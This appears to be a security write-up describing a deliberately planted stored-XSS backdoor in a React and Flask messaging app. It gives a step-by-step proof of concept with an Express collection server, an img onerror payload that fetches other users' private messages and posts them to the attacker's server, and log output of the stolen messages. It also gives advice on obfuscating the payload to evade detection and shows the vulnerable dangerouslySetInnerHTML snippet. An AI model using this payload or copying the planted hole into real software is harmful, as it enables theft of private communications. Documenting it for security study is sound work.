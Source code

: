 ## Exploitation Method (Proof of Concept)

1. Attacker identifies that messages are displayed using `innerHTML` and not `innerText`.

![Image 1.1](appendix/Image%201.1.png)

<p align="center"><em>Figure 1.1: A simple XSS test. The attacker refreshes the page and realises that the message is stored, so it's persistent</em></p>

2. Attacker monitors their network tab to see what request the frontend is making to the backend.

![Image 1.2](appendix/Image%201.2.png)

<p align="center"><em>Figure 1.2: The <code>`/get_messages`</code> endpoint catches the attacker's eye!</em></p>

3. Attacker sets up a very basic server to retrieve responses.

```js
const express = require("express");
const bodyParser = require("body-parser");
const cors = require("cors");
const app = express();
const port = 3000;

app.use(cors());
app.use(bodyParser.json());

app.post("/return", (req, res) => {
  console.log("Received POST request at /return");
  console.log("Request body:", req.body);
  res.status(200).send("Request received and logged");
});

app.listen(port, () => {
  console.log(`Server listening at http://localhost:${port}`);
});


...
[ 1 16:38:00 john-wayne-gacy ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
```

4. Attacker crafts a special XSS attack which will make a request to `/get_messages` and send the response to their server.

```html
<img
  src="x"
  onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))'
/>
```

5. Attacker waits some time for other clients to send some private messages

![Image 1.3](appendix/Image%201.3.png)

<p align="center"><em>Figure 1.3: Clients 2 and 3 are speaking privately, thinking that client 1 can't see their messages</em></p>

6. Attacker sends a private XSS attack to client 2 and waits for them to refresh their messages.

![Image 1.4](appendix/Image%201.4.png)

<p align="center"><em>Figure 1.4: Client 2 retrieves the XSS attack!</em></p>

7. Victim client loads XSS attack, which forces them to send their messages to the attacker's server.

```
[ 0 16:51:34 the-zodiac-killer ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
Received POST request at /return
Request body: {
  messages: [
    {
      message: 'hi client 3, we can talk in private here!!!',
      sender: 'kOCmwXHM5C/pNO5nW+FTdDxCFr6CHnT75u6doHno+7o=',
      timestamp: 1727767376.9362664
    },
    {
      message: 'hi client 2, yes we can! client 1 will never be able to see this!',
      sender: 'YEym18KEGEn68nr3MHSnOCN+h5thptu+amZA7Y1HJvo=',
      timestamp: 1727767403.5918934
    },
    {
      message: `<img   src="x"   onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))' />`,
      sender: 'C7G1Mrjqk6nDlS5u7Fv3R221UovWf9HzffZQtEzrOt4=',
      timestamp: 1727767593.7110288
    }
  ]
}
```

<p align="center"><em>Figure 1.5: Attacker successfully retrieves private 'secure' messages from a simple XSS vulnerability</em></p>

## Detection Challenges

- The vulnerability hinges on a single, easily overlooked line in approximately 4,000 lines of code: the use of `dangerouslySetInnerHTML`.
- Much of the code enabling this exploit serves legitimate purposes within the application. The storage and retrieval of data in client volumes is necessary for the messaging functionality.
- The XSS payload can be obfuscated or split across multiple messages to evade simple pattern-matching detection methods.
- The actual data exfiltration occurs client-side, making it difficult to detect through server-side logging or monitoring.
- The attack leaves minimal traces in server logs, as it primarily exploits client-side vulnerabilities.
- Regular security scans might not detect this vulnerability if they're not specifically configured to check for XSS in React applications.

## Code Snippets

```jsx
// ... (rest of react component)
<p
  className="break-words"
  dangerouslySetInnerHTML={{ __html: messageContent }}
></p>
```

<p align="center"><em>Figure 1.1: Code Snippet showing use of <code>dangerouslySetInnerHTML</code></em></p>

```python
@app.route('/get_messages', methods=['GET'])
def get_messages():
    if MESSAGE_EXPIRY_TIME == 0:
        # Messages are not stored; return the current messages and clear them
        messages = client_instance.incoming_messages.copy()
        client_instance.incoming_messages.clear()
        return jsonify({'messages': messages})
    else:
        current_time = time.time()
        with client_instance.message_lock:
            if MESSAGE_EXPIRY_TIME > 0:
                # Remove expired messages
                client_instance.incoming_messages = [
                    msg for msg in client_instance.incoming_messages
                    if current_time - msg['timestamp'] <= MESSAGE_EXPIRY_TIME
                ]
                client_instance.save_messages()

            messages = client_instance.incoming_messages.copy()
        return jsonify({'messages': messages})
```

<p align="center"><em>Figure 1.2: Code Snippet showing the client's logic to send back messages</em></p>
